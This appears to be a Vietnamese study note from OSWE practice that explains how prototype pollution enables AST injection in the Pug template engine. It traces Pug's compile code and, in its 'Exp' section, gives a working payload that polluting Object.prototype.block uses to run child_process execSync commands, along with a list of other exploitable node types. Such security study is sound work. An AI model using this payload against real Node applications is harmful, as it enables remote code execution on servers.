


# AST Injection

<h1>Chỉ là note lại những gì đã học được</h1>

Trong khi đang speedrun OSWE đến những chương cuối của OSWE thì tôi gặp dạng bài Prototype Pollution (dạng bài mà tôi trước giờ chỉ copy & paste payload như 1 thằng n00b , anyway bây giờ vẫn là 1 thằng n00b) và nếu muốn rõ về cách payload hoạt động như thế nào thì tôi lại phải đi học Javascript. Một ngôn ngữ tôi không thích lắm vì logic ảo ma của nó nhưng biết sao giờ chẳng lẽ lại bỏ qua chương này và thế là lại phải học thôi !!


## AST là gì
Hiểu đơn giản AST (Abstract Syntax Tree) là cây biểu diễn cấu trúc cú pháp của mã nguồn của một 
ngôn ngữ nhất định ( [Chi tiết](https://www.twilio.com/blog/abstract-syntax-trees) )

AST được sử dụng thường xuyên trong JS ví dụ như: template engines, typescript, ... ( tôi cũng không rõ dùng ở typescript chỗ nào vì đọc nó bảo thế thì list nhìn cho nó dài thôi 🙃). Trong bài này thì ta tập trung vào template engines. Flow chung cho template engines như ảnh dưới đây:


## Pug Template Engines
Trong bàhi này ta sẽ đi vào cụ thể một template engines đó là Pug vì đây là một trong nững template engines khá phổ biến của JS. Flow của Pug như sau:

Đầu tiên chúng ta xem cách khao báo để tạo ra một template.
```
const pug = require('pug');

// Compile the source code
const compiledFunction = pug.compileFile('template.pug');

// Render a set of data
console.log(compiledFunction({
  name: 'Timothy'
}));
// "<p>Timothy's Pug source code!</p>"

// Render another set of data
console.log(compiledFunction({
  name: 'Forbes'
}));
// "<p>Forbes's Pug source code!</p>"
```
Ở đây nhận tham số đầu vào là một file có chứa các cú pháp của Pug. Sau khi xem xét qua hàm thì tôi tóm gọn lại là flow như sau **compileFile => handleTemplateCache => compile** nên chúng ta sẽ bắt đầu từ hàm compile(/pug/lib/index.js).

Trong hàm **compile** sẽ gọi đến hàm **compileBody** (hàm này trả về 1 object có thuộc tính *body* chứa code JS được tạo ra)
```
function compileBody(str, options) {
...
  var ast = load.string(str, { //magic })
...
  return {body: js, dependencies: dependencies};
}
```
Tiếp tục gọi đến hàm **load** và 1 cách magic ta có được giá trị AST. Sau khi có AST thì nó được truyền vào hàm **generateCode** (như cái tên của nó hàm này trả về code JS được tạo bởi AST)
```
var js = (findReplacementFunc(plugins, 'generateCode') || generateCode)(ast, {
    pretty: options.pretty,
    compileDebug: options.compileDebug,
    doctype: options.doctype,
    inlineRuntimeFunctions: options.inlineRuntimeFunctions,
    globals: options.globals,
    self: options.self,
    includeSources: options.includeSources ? debug_sources : false,
    templateName: options.templateName,
  });
```
Lần mò vào hàm **generateCode** thì hàm này tạo ra một đối tượng **Compiler** và gọi đến phương thức **compile**
```
function generateCode(ast, options) {
  return new Compiler(ast, options).compile();
}
=>
  compile: function() {
...
    this.visit(this.node); // code được gen và đẩy vào buff ở đây
...
```
Từ đây tất cả logic tạo code js từ AST đều ở đây.Ta sẽ phân tích 1 ví dụ như sau: 
```
const pug = require('pug');
compiledFunction = pug.compile("nothing",{debug:true})
```
Bây giờ giá trị của AST sẽ là:



Flow cơ bản của quá trình này là 

```
 visit: function(node, parent) {
    var debug = this.debug;

    if (!node) { 
        ... 
    }

    if (debug && node.debug !== false && node.type !== 'Block') {
      if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
          js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
      }
    }

    if (!this['visit' + node.type]) { // Kiểm tra valid type của node
    ...
    }

    this.visitNode(node); // gọi đến hàm gen code với các type tương ứng
  }
```
Một số hàm gen code với các type
```
  visitText: function(text) {
    this.buffer(text.val);
  }
-------------------------------------------------------
  visitComment: function(comment) {
    if (!comment.buffer) return;
    if (this.pp) this.prettyIndent(1, true);
    this.buffer('<!--' + comment.val + '-->');
  }
-------------------------------------------------------
  visitCode: function(code) {
    // Wrap code blocks with {}.
    // we only wrap unbuffered code blocks ATM
    // since they are usually flow control

    // Buffer code
    if (code.buffer) {
      var val = code.val.trim();
      val = 'null == (pug_interp = ' + val + ') ? "" : pug_interp';
      if (code.mustEscape !== false)
        val = this.runtime('escape') + '(' + val + ')';
      this.bufferExpression(val);
    } else {
      this.buf.push(code.val);
    }

    // Block support
    if (code.block) {
      if (!code.buffer) this.buf.push('{');
      this.visit(code.block, code);
      if (!code.buffer) this.buf.push('}');
    }
  },
 
```

## Exp
Payload Prototype Injection
```
const pug = require('pug');
Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
pug.compile('h1= msg', {debug:true});
```
Template Function được trả về đã được injection
```
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
      var locals_for_with = (locals || {});
      
      (function (console, msg, process) {
        ;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E";
  ;pug_debug_line = 1;
  pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));
  ;pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
  pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
      }.call(this, "console" in locals_for_with ?
          locals_for_with.console :
          typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
          locals_for_with.msg :
          typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
          locals_for_with.process :
          typeof process !== 'undefined' ? process : undefined));
      ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Lúc này trong đầu mình có câu hỏi tại sao lại là type Text chứ không phải các type khác và liệu có type nào còn có thể khai thác được không.
Sau 1 hồi debug thì mình tìm ra được các type có thể lợi dụng cần phải thỏa mãn 2 điều kiện:
* Có hàm visit*Type* (visitCode, visitTag, ..)
* Thuộc các case sau để tránh gọi đến hàm walkAST 1 lần nữa và mình tìm thêm được 1 số type hợp lệ.
```
    case 'Attrs':
    case 'BlockComment': // work
    case 'Comment': // work
    case 'Doctype': // work
    case 'IncludeFilter':
    case 'MixinBlock': // work
    case 'YieldBlock': // work 
    case 'Text': // 
      break;
```
Liệu payload trên có hoạt động với mọi template không? => Câu trả lời là không nếu template không tham chiếu đến giá trị nhận từ argument.( điều này khó xảy ra vì nếu không tham chiếu đến đến các biến được truyền vào thì đã không sử dụng template từ ban đầu)
Ví dụ về một template mà payload trên không hoạt động.
```
pug.compile('h1', {debug:true})
----------------------------------
Compiled Function:

  function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E\u003C\u002Fh1\u003E";} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Tuy nhiên mình phát hiện ngay cả trong trường hợp trên, ta vẫn có thể khai thác được cũng bằng Prototype Pollution và mình để tự bạn tìm ra câu trả lời cho trường hợp trên. (dễ quá nó chán lắm 😂😂)

